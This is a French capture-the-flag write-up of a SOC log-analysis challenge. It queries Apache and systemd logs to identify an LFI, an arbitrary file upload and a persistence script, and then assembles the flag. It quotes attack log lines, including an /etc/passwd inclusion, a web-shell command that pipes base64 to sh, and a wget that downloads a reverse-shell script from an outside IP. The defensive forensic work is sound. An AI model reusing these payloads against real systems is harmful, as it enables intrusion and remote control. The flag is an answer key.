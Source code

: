 # Mission 2 DGSE x Rootme (SOC)

![Brief](images/brief.png)

# Writeup

On nous met à disposition une plateforme SOC avec des logs Apache et des logs système. Pour constituer le flag, on nous demande les informations suivantes :

### 1. CWE de la première vulnérabilité (logs Apache)

**Type** : Local File Inclusion (LFI)

**Requête KQL/DQL** pour ne garder que les inclusions réussies :
```SQL
request : "*../*etc/*" AND status=200
```

**Extrait de log** :
```SQL
@timestamp:00:21:36.588 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:21:36 +0100] "GET /?lang=/etc&page=passwd%2500 HTTP/1.1" ==200==
```

L'attaquant a réussit à inclure le fichier */etc/passwd* --> `CWE-98`


### 2. CWE de la seconde vulnérabilité (logs Apache)

**Type** : File Upload arbitraire

**Requête KQL/DQL** pour détecter les commandes passées en paramètre ***cmd*** :
```SQL
verb : GET and response : 200 and request : "*?cmd=*"
```

**Extrait de log** :
```SQL
@timestamp:00:31:40.526 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:31:40 +0100] "GET /admin-page/upload/68af9111db3749e2e8af39e255fd874c/ev1L.php.png?cmd=echo+'cGluZyAtYyAxIGdvb2dsZS5jb20='|base64+-d|sh
```

Un fichier nommé ***ev1L.php.png*** a été uploadé, puis invoqué avec une commande système via le paramètre ***cmd*** →  `CWE-434`


### 3. Adresse IP du serveur (logs systemd)

On peut rechercher **toutes** les occurrences de téléchargement via `wget` grâce à cette requête:
```SQL
message : "wget"
```

**Extrait de log** :
```JSON
"message": [ "EXECVE argc=4 a0=\"@opensearch-dashboards-highlighted-field@wget@/opensearch-dashboards-highlighted-field@\" a1=\"http://163.172.67.201:49999/s1mpl3-r3vsh3l.sh\" a2=\"-O\" a3=\"/root/.0x00/pwn3d-by-nullv4stati0n.sh\""]
```

Le script a été téléchargé depuis l'adresse: `163.172.67.201`

### 4. Chemin du fichier de persistance

En reprenant le résultat précédent, on peut extraire le chemin: `/root/.0x00/pwn3d-by-nullv4stati0n.sh`

**Flag: ||`RM{CWE-98:CWE-434:163.172.67.201:/root/.0x00/pwn3d-by-nullv4stati0n.sh}`||**